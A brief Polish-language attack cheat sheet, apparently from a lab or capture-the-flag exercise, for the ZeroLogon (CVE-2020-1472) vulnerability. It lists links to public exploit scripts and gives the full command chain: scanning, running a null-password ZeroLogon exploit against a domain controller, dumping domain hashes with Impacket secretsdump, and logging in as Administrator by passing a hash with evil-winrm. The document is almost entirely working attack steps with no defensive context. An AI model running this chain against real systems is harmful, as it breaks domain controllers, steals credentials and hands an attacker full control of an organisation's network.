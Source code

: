# Narzedzia
## Impacket zero logon
▪ https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
▪ https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py
## Impacket secretdump
▪ https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py

# Atak
## Skanowanie
            ▪ nmap -sC -sV -A <ip>
## Srodowisko (nie koniecznie)
            ▪ python3 -m pip install virtualenv
            ▪ python3 -m virtualenv impacketEnv
            ▪ source impacketEnv/bin/activate
            ▪ pip install git+https://github.com/SecureAuthCorp/impacket
## Zero logon
            ▪ python3 zeroLogon-NullPass.py DC01 10.10.54.167
            ▪ impacket-secretsdump -just-dc -no-pass DC01\$@10.10.54.167
## Zalogowanie sie przy uzyciu hasha
            ▪  evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.154.52
    
    
    
    
    
    
